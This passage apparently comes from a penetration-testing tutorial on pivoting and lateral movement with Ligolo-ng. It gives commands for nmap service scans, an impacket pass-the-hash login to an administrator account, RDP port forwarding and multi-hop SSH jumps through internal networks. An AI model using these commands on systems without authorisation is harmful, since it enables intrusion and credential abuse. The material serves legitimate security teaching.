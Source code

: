 ```bash

# Scan each live host
for HOST in $LIVE_HOSTS; do
    echo "----------------------------------------" | tee -a $OUTPUT_FILE
    echo "Scanning $HOST..." | tee -a $OUTPUT_FILE
    nmap -sV -F --script=banner $HOST | tee -a $OUTPUT_FILE
done

echo "Network mapping completed. Results saved to $OUTPUT_FILE"
```

## Lateral Movement Techniques

Ligolo-ng's transparent network access facilitates various lateral movement techniques.

### Pass-the-Hash with Ligolo-ng

```bash
# Using impacket through the tunnel
proxychains python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a1b2c3d4e5f6g7h8i9j0 administrator@10.10.10.50
```

### RDP Access to Internal Systems

```bash
# Set up port forwarding to RDP
ligolo-ng (192.168.1.5) » listener_add --addr 0.0.0.0:13389 --to 10.10.10.50:3389 --name rdp_target

# Connect using xfreerdp
xfreerdp /v:localhost:13389 /u:administrator /p:password /d:domain
```

### SSH Jumping Through Multiple Networks

```bash
# Configure SSH config for proxying
cat >> ~/.ssh/config << EOF
Host internal-jump
    HostName 10.10.10.50
    User username
    ProxyCommand nc -X 5 -x localhost:1080 %h %p

Host final-target
    HostName 172.16.5.60
    User username
    ProxyJump internal-jump
EOF

# Connect to final target
ssh final-target
```

